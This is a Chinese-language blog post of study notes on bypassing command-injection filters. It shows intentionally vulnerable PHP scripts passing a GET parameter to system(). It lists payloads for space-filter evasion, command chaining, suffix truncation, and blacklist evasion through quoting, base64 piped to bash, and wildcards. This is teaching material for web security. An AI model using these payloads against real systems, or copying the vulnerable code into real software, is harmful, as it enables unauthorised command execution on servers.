 ```yaml
---
layout: post
title: 命令执行绕过
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


[https://www.jianshu.com/p/5e505e3d8075](https://www.jianshu.com/p/5e505e3d8075)  

[http://www.4hou.com/reverse/5643.html](http://www.4hou.com/reverse/5643.html)  

**cmd1.php**  

```
<?php
$cmd=$_GET['cmd'];
echo "执行的语句:";
echo $cmd;
echo "<br>执行结果:";
system($cmd);
?>


```  

首先随便试试?cmd=ls，正常显示。  
  
## 1 空格的过滤   

1.1 $IFS  
>     ?cmd=cat$IFSkey  
  

1.2 >或者<>  
  
>     ?cmd=cat>key 
>     ?cmd=cat<>key  
    
1.3  %09(php环境下) 
>     ?cmd=cat%09key     

## 2 多条命令执行，且有前缀 ##  
  
有时候会出现这种代码    

**cmd2.php**  

```
<?php
$cmd=$_GET['cmd'];
echo "执行的语句:";
$var='curl '.$cmd;
echo $var;
echo "<br>执行结果:";
system($var);
?>
```  

可以把它理解为curl在线使用吧。?cmd=www.baidu.com,结果如下图  

![](https://i.imgur.com/ENKPav0.png)  

直接打ls等系统命令就会出错，因为执行的命令前边始终有个curl。  

2.1 分号;  
>     ?cmd=www.baidu.com;ls
>     值得注意的是ls执行的内容会在网页最下边才能看到。  

2.2 &,&&,|,||  
>     这几个指令有区别,懒得写了，直接截图  

![](https://i.imgur.com/LYHwy1A.png)  

2.3 换行符%0a(php环境)
>     这个怎么个用法呢，先看这条?cmd=%0als  
>     发现是可以正常执行ls的，那么curl呢？
>     换行符让curl孤单的成为一条语句，ls成为一条孤独的语句，所以就绕过了curl后边加网址的限制。  

## 3 存在后缀需要消除后边的影响   
**cmd3.php**
```
<?php
$cmd=$_GET['cmd'];
echo "执行的语句:";
$var='curl www.'.$cmd.".com";
echo $var;
echo "<br>执行结果:";
//system($cmd);
system($var);
?>

```  

这次把后边也堵上了，所以要用到类似于sql注入中#的截断作用的字符。  

3.1 %00(需要php环境)  
>     ?cmd=;ls%00  
>     正常执行ls，原来命令时ls.com，加入%00后，.com就没了 

3.2 %20%23
>     ?cmd=;ls%20%23  

## 4. 黑名单绕过  
  
4.1 拼接  

>     ?cmd=a=c;b=at;c=key;$a$b $c

4.2  base64编码
>     ?cmd=ls
>     ?cmd=echo "bHM="|base64 -d|bash  

4.3 单双引号
>     ?cmd=cat key
>     ?cmd=ca""t k''ey  

4.4 反斜杠  

>     ?cmd=cat key
>     ?cmd=c\a\t k\e\y  

4.5  通配符* ?
>     一个?代表一个字符，*代表若干字符。  
>     其实早就有通配符绕过英文数字的限制提权了。  
>     ?cmd=/bin/cat key
>     ?cmd=/???/??? ??? 
>     我也不知道他到底执行的什么命令，不过肯定有/bin/cat key这一条 
>     内容很多，最好是结合字母  /bi?/ca? ?ey  

![](https://i.imgur.com/YiWcmSO.png)  

4.6 绕过ip中的.，虽然不知道有啥用，先记下来。    


[http://www.msxindl.com/tools/ip/ip_num.asp](http://www.msxindl.com/tools/ip/ip_num.asp)  

4.7没看，顺手抄下来，看win下干嘛。。。  

![](https://i.imgur.com/DEYIyNg.png)  

4.8 无回显，还没看，看到整理下来，顺便也学一下。    

4.9 突破长度限制  

## 5.构造字符 利用expr   

这个其实是黑名单绕过的，但是我觉得很妙，就把它单独拿出来说了。  
 可以从文件中或者环境变量获取某些字符
>     可以用export查看一些环境变量，而$pwd这个第一个字符一定是/  
>     expr substr $PWD 1 1(输出为)
>     export可以查看变量  
>     如果过滤了一下字符，可以冲这些变量中拼凑出来  

## 6.直接截图 ##
![](https://i.imgur.com/421kVKd.png)   
